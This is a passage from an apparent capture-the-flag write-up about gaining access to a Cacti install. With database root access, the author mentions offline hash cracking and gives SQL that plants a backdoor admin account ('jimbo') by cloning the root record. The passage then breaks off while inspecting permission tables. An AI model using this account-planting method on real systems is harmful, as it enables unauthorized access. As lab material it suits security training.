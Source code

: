 OK, now I know my laptop isn't that great... but apparently cracking these hashes, even just using `rockyou`, is going to take a week and a half?!

![7ppvbd](7ppvbd.jpg)

I'll leave `john` running while I continue, but for now I think it's best if I explore other options...

Let's turn this problem upside-down. We already have root access to the database, why not just insert a new credential?

So instead, I'll copy the root record and just give it a new username and password. Probably all the permissions will be the same. First things first, we'll need a new password hash. Thankfully, I found a website to do this:

![blowfish hash generation](blowfish%20hash%20generation.png)

> It looks like the second part of the hash, which is usually the salt, actually identifies the number of rounds of the algorithm. To match the other entries from the database, I chose 10 rounds.

Unfortunately, copying a record but changing a couple fields is not actually the simplest thing to do in SQL (if you don't want to list every column manually). Invoking some SQL-fu, I'll select the admin record into a new table, update a couple values, then select it back into `user_auth`:

```sql
CREATE TABLE user_auth_temp AS SELECT * FROM user_auth WHERE id=1;

UPDATE user_auth_temp SET id=5, username="jimbo", password="$2a$10$nZP/YV02tUmZ.TPTIwiCeeh23BPmcad5BfiYlp46ItkHTbp/OGPsa";

INSERT INTO user_auth SELECT * FROM user_auth_temp;

DROP TABLE user_auth_temp;
```

Just to check my work:

![new user record](new%20user%20record.png)

OK, looks good. I'll try signing in with credentials **jimbo : password**

![no access](no%20access.png)

Well, partial success. We now know that this login checks the `user_auth` table, but unfortunately the new user I created is not in the correct groups or something. Surely this can be fixed using only the database...

```sql
MySQL [cacti]> select * from user_auth_group_members;
Empty set (0.001 sec)

MySQL [cacti]> select * from user_auth_group_perms;
Empty set (0.022 sec)

MySQL [cacti]> select * from user_auth_group_realm;
Empty set (0.000 sec)

MySQL [cacti]> select * from user_auth_perms;
Empty set (0.003 sec)

MySQL [cacti]> select * from user_auth_realm;
+----------+---------+
| realm_id | user_id |
+----------+---------+
|        1 |       1 |
|        2 |       1 |
|        3 |       1 |
|        4 |       1 |
```
